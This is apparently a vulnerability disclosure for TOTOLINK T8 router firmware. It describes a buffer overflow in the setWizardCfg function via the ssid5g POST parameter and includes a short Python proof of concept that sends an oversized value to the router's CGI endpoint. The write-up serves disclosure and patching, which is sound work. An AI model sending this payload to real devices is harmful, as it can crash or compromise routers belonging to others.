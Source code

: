 ## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/222/ids/36.html

## Affected version

T8_Firmware V4.1.5cu.861_B20230220

## Vulnerability details

In the T8_Firmware V4.1.5cu.861_B20230220 firmware has a buffer overflow vulnerability in the `setWizardCfg` function. The `v68` variable receives the `ssid5g` parameter from a POST request. However, since the user can control the input of `ssid5g`, the `strcnpy` can cause a buffer overflow vulnerability.

![image-20240902132027948](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240902132027948.png)

![image-20240902131826046](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240902131826046.png)

## POC

```python
import requests
url = "http://127.0.0.1/cgi-bin/cstecgi.cgi"
cookie = {"Cookie":"SESSION_ID=2:1721039211:2"}
data = {
"topicurl":"setWizardCfg",
"cloneMac":"11:22:33:44:55",
"ssid5g":"b"*0x1000,
}
response = requests.post(url, cookies=cookie, json=data)
print(response.text)
print(response)
```

![image-20240721015356613](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240721015356613.png)
